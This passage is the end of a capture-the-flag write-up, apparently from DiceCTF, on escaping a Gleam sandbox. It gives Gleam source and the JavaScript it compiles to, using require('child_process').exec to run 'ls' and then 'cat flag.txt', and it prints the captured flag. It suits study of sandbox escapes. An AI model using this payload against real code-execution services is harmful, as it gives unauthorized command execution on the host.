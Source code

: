 which compiles to
```js
import { CustomType as $CustomType, toBitArray } from "./gleam.mjs";

export class Mod extends $CustomType {
  constructor(exec) {
    super();
    this.exec = exec;
  }
}

function print_out(err, stdout, stderr) {
  return prompt(stdout);
}

export function main() {
  let mod = require("child_process").exec("ls", print_out);
  return mod;
}
```

Running this on remote we get the output of `ls` and the challenge is solved!

## Final payload
```rs
pub type Mod {
  Mod(exec: fn(String, fn(String, String, String) -> String) -> String)
}
pub fn require(a: String) -> Mod {
  let a = <<0:16-native>>
  Mod(fn(b: String, c: fn(String, String, String) -> String) { "" })
}
fn print_out(err: String, stdout: String, stderr: String) {
  prompt(stdout)
}
fn prompt(a: String) -> String {
  let a = <<0:16-native>>
  "a"
}
pub fn main() {
  let mod = require("child_process").exec("cat flag.txt", print_out)
}
```
*Special thanks to my teammate Athryx who exploited the unsupported features bug*

> dice{5f45c2d75de6c5ee}